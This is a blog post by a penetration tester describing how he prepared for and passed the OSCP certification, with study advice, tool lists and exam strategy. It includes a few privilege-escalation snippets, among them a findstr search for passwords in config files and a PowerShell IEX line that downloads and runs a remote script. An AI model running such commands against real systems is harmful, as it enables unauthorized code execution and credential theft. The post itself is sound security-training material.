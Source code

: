 :slug: oscp-journey/
:date: 2019-12-04
:category: opinions
:subtitle: The meaning of Try Harder
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Man siting facing laptop. Photo by Clint Patterson on Unsplash: https://unsplash.com/photos/dYEuFB8KQJk
:description: The OSCP exam is one of the hardest certifications for pentesters out there. Many people take this exam to test their pentesting abilities and most of them don’t pass it in the first attempt. Here I will show you how I prepared myself and how you can obtain the certification too.
:keywords: Bussiness, Information, Security, Protection, Hacking, Best Practices
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= How to pass the OSCP

My background before taking the exam
was two years of work at +Fluid Attacks+ as a penetration tester,
this means that I already had the know-how of a penetration test
and how to build a technical report of my findings.
However, if you don’t have the experience on the field
or you are starting just now,
this post will help you pass your exam.

The most important phase on a penetration test is scanning.
Here you will use your tools to get information about your target
like operating system, open ports, services running on those ports,
their versions, whether they have public vulnerabilities or not
and whether there is a public exploit for those vulnerabilities.
Since +metasploit+ is restricted to only *ONE* machine
(this includes the auxiliary modules too)
you need to make yourself comfortable with tools such as:

* link:https://nmap.org/[Nmap]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://tools.kali.org/information-gathering/nikto[Nikto]
* link:https://tools.kali.org/web-applications/gobuster[Gobuster]
* link:https://github.com/maurosoria/dirsearch[Dirsearch]
* link:https://tools.kali.org/information-gathering/enum4linux[enum4linux]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]


The only way to do this is by using them continuously
until you develop a solid enumeration strategy.
To help with this, there are services like link:https://www.hackthebox.eu/[hackthebox] and link:https://www.vulnhub.com/[vulnhub],
where you will find vulnerable machines to test your skills.

image::hackthebox.png[owned-machines]

Furthermore, there you can practice the _gaining access_ phase
and your privilege escalation strategies with multiple operating systems
and vulnerabilities that resemble the ones in real life scenarios.
You would be surprised by how many times
I’ve encountered the vulnerability on +hackthebox+ first
and then on a real life service.
The tools and resources that I got the most from for privilege escalation were:

* link:https://github.com/rebootuser/LinEnum[linenum]
* link:https://github.com/AonCyberLabs/Windows-Exploit-Suggester[windows exploit suggester]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]
* link:https://github.com/411Hall/JAWS[JAWS]
* link:https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc[PowerUp]
* link:https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/[g0tmilk Linux privesc blog]
* link:https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/[absolomb Windows privesc blog]

I recommend to hack all the live machines that you can
without any help and get some points on the platform.
With this you will get used to the tools
and strengthen your mentality in order to take the exam.
If you can’t hack a machine and it gets removed,
you can check the walkthrough by link:https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA[Ippsec]
and learn new things.
You can learn stuff from these videos
even for machines you did root.
Do this for at least one month or, if you have zero experience, two months.

== Attacking the lab

I had a month of lab access, so the approach that I took
to the course and the lab was splitting them by days,
one to concentrate on the guide
and take notes of interesting things that I didn't know
and a day for attacking the lab machines.

When you are working on the machines,
try to also work on your time management;
do not spend too much time on one machine when you can try another one,
as this skill is very important when you are taking your exam
because things can go south.

Before your lab access ends,
be sure to fully understand how to do a +buffer overflow+,
take notes of every step, copy all the commands that you need
and also how to get the +return address+.
This will help greatly in your exam.


== Post lab

Here you want to gather the most information
about the last two steps and put it to a test.
We are going back to +hackthebox+
but instead of doing the active machines
we are going to do the ones from link:https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0[this list]
(there are also some from +vulnhub+).

image::url-oscp.png[oscp-like-machines]

Try to conquer those machines
without the aid of walkthroughs,
and when you finish one, you will look at these
to check whether there is another way in and practice it.

The day before, I did nothing.
Your body and mind need to rest
and you should not try to cram before the test.
Eat your favourite foods (pancakes, pizza and sushi),
enjoy yourself with a well deserved dessert
and watch movies and series that you left behind while studying.


== The exam

The task is to gain administrative access
to the machines in the network, there are 5 machines
and each is worth a certain number of points if you complete it
and you need at least +70+ points to pass the exam.
The machine points are distributed as:

* 25 points Buffer Overflow
* 25 points machine
* Two 20 points machines
* 10 points machine

I started with the +25 points BoF+ machine
while I scanned all the other ones,
this because I knew that I could follow the guide step by step
and get the points.
My scanning strategy was to run +nmap+ with these options:

.nmap with options
[source,bash]
----
$ nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
----

Also, I pinged the machine
in order to view its operative system,
if the +TTL+ (Time to Live) is +64+ then it is a +Linux+ machine
and if it is +128+ then it’s a +Windows+ machine.
When the port scan finished I checked every web service
and used a web crawler like +dirbuster+ or +dirsearch+.

After finishing the +BoF+ machine,
I could start hacking the machines
with all the information that I’d collected.
I ended up on rabbit holes
trying to gain admin privileges on the 25-pointer machine,
soon enough I decided to switch to both 20-pointer
and finally the 10-pointer machine.

For privilege escalation
I first checked the operative system version and kernel,
this can be done by running:

[source,bash]
----
$ uname -a #linux
> systeminfo #windows
----

If it was +Linux+ I checked for +sudo+ rights,
running processes and for +SUID+ executables.
There is a tool named +linenum+ but it’s too verbose
and I like to search for things manually:

[source,bash]
----
$ sudo -l
$ ps -aux
$ find / -perm -u=s -type f 2>/dev/null
----

If it was +Windows+, I checked for the +Groups.xml+ file
(usually it has administrative user and password there),
installed software and tried to use +powershell+
to run +Windows+ exploits.
When it comes to +Windows+, most of the time the way of escalating privileges
is through a vulnerability in the +OS+ version
or in an installed program version.

[source,bash]
----
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
----


I finished my test in less than 10 hours
with 4 admins and 1 user, this was a little more than +75+ points.
The mistake that I made
was to be lazy with my screenshots
so I needed to redo all the machines
to get all of my evidences (*DON’T DO THIS*).
The next day I did my technical documentation,
the advice here is to put everything that you did
from the _scanning_ phase up to the _privilege escalation_ phase,
also if you modified an exploit (even if is only one line)
put it on the report and mark what you modified.
Then it was only a matter of waiting for the response.

image::oscp-win.png[oscp-win]

== What you can take

The +OSCP+ is surely a hard certification but it’s not impossible.
The steps previous to the lab are going to help you
to get the most out of the course
and to have your own routine when it comes to doing a penetration test.
The _enumeration_ and _scanning_ phases
are the most important ones in the whole process,
you can spend hours going through rabbit holes
if you do not do this step properly
so be sure that you dominate yours.
A mental toughness is needed to pass this test
so be prepared to think quickly and creatively,
daisy chaining vulnerabilities and to rest when it is needed.
The discord groups of +hackthebox+ and +OFFSEC+ are at your disposal
to solve your questions or give hints where you need them, so try harder.
